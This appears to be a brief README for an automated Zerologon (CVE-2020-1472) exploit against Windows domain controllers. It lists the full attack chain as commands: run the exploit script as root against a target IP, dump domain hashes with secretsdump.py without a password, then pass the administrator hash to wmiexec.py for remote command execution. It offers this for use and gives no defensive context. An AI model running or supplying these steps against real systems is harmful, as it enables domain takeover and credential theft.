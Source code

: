 # zerologon automated 
run this script as a root user 

sudo su 

After installation is completed then run the python script as following 

python3 cve-2020-1472-exploit.py -n computername -t target ip

  secretsdump.py -no-pass -just-dc <domain>/<computername>\$@<targetip>

  wmiexec.py -hashes <hashdump of administrator> <domain>/Administrator@<targetip>

